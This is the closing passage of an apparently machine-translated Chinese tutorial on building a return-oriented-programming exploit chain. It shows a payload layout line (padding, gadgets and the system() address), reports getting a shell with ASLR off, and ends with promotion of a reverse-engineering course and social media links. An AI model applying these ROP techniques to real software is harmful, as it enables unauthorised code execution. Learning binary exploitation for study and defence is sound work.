> *打印(垃圾+小工具 1+垃圾 1+垃圾+垃圾 2+小工具 2+垃圾 3+系统)*

*请注意，我们在系统变量中提供的地址没有添加 libc base，因为它不像其他小工具那样是一个偏移量，而是一个实际的地址。让我们看看我们的漏洞利用布局*

**

*我们的利用现在已经完成了。现在让我们在 gdb 内部运行它，没有任何断点。*

**

*万岁…我们得到了一个贝壳！！！！！*

*我们的努力得到了回报。现在让我们尝试在 gdb 之外运行它(确保 alsr 关闭)*

**

*是的，它工作正常…*

*(sos:鹿野山 sama 爱情就是战争)*

*是的，我知道我知道这是一个很长的帖子，几乎很累，但我想尽可能详细说明，以便你们能更好地理解。一定要自己试试。慢慢来，理解这些小工具是如何链接在一起做一些事情的。我建议你接下来尝试使用 rop 链来调用 mprotect()。我将会发表一篇关于它的文章，但不会很快。感谢你花时间阅读这篇文章。我希望这值得你花时间*

*有兴趣可以看看我的 udemy 课程:[https://www . udemy . com/course/reverse-engineering-and-binary-exploitation-in-arm/？referral code = 8c 725d 513 e 77420 a 0 CBF](https://www.udemy.com/course/reverse-engineering-and-binary-exploitation-in-arm/?referralCode=8C725D513E77420A0CBF)*

*如果您有任何疑问，请通过 facebook 与我联系*

*https://www.facebook.com/i.am.ultralegend/*

*insta gram:[https://www.instagram.com/hagane_no_rekinjutsushi/](https://www.instagram.com/hagane_no_rekinjutsushi/)*